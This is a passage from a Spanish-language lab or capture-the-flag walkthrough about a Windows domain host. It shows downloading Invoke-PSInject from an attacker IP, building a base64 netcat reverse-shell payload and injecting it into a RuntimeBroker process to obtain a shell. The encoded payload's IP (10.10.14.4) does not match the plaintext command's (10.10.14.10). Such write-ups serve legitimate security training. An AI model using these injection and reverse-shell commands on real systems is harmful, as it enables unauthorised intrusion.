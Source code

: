 ```powershell
[+] [2023-09-02T22:06:49] mDNS(QM) request fin01.local received from 10.13.38.20 [spoofer disabled]
[+] [2023-09-02T22:06:50] NBNS request for FIN01<20> received from 192.168.10.39 [spoofer disabled]
[+] [2023-09-02T22:06:50] NBNS request for FIN01<20> received from 192.168.10.39 [spoofer disabled]
[+] [2023-09-02T22:06:50] DNS request for fin01.daedalus.local sent to 192.168.10.6 [outgoing query]  
PS C:\ProgramData>
```

Es posible que estemos frente a una tarea específica, y aunque contamos con la herramienta Seatbelt para enumerar tareas, primero necesitamos migrar a un proceso. Para ello, procedemos a importar Invoke-PSInject.

```powershell
PS C:\ProgramData> curl 10.10.14.6/Invoke-PSInject.ps1 -o Invoke-PSInject.ps1  
PS C:\ProgramData> Import-Module .\Invoke-PSInject.ps1
PS C:\ProgramData>
```

A continuación, seleccionaremos un proceso al cual migrar. En este caso, optamos por utilizar RunTimeBroker.

```powershell
PS C:\ProgramData> Get-Process RunTimeBroker

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    276      14     3348      15672       0.53   4992   1 RuntimeBroker  
    341      18    20332      33492       2.02   5952   1 RuntimeBroker  
    145       8     1764       7820       0.13   8184   1 RuntimeBroker  

PS C:\ProgramData>
```

Posteriormente, procederemos a crear un payload en base64 que aproveche el uso de Netcat para enviar una reverse shell.

```bash
❯ echo -n 'cmd /c C:\\ProgramData\\netcat.exe -e powershell 10.10.14.10 443' | iconv -t utf16le | base64 -w0
YwBtAGQAIAAvAGMAIABDADoAXABQAHIAbwBnAHIAYQBtAEQAYQB0AGEAXABuAGUAdABjAGEAdAAuAGUAeABlACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAAgADEAMAAuADEAMAAuADEANAAuADQAIAA0ADQAMwA=  
```

Tras ejecutar nuestro payload en base64 en el proceso con ID 4992, perteneciente al proceso RunTimeBroker, se ha iniciado una nueva instancia de PowerShell.

```powershell
PS C:\ProgramData> Invoke-PSInject -Procid 4992 -PoshCode YwBtAGQAIAAvAGMAIABDADoAXABQAHIAbwBnAHIAYQBtAEQAYQB0AGEAXABuAGUAdABjAGEAdAAuAGUAeABlACAALQBlACAAcABvAHcAZQByAHMAaABlAGwAbAAgADEAMAAuADEAMAAuADEANAAuADQAIAA0ADQAMwA=  
PS C:\ProgramData>
```

Posteriormente, se inició un servidor Netcat en espera de conexiones en el puerto 443. Una vez recibida una conexión, se estableció una nueva sesión de PowerShell en el sistema comprometido. Bajo este contexto, pudimos identificar que el usuario actual es "svc_dev" en la máquina "web01".
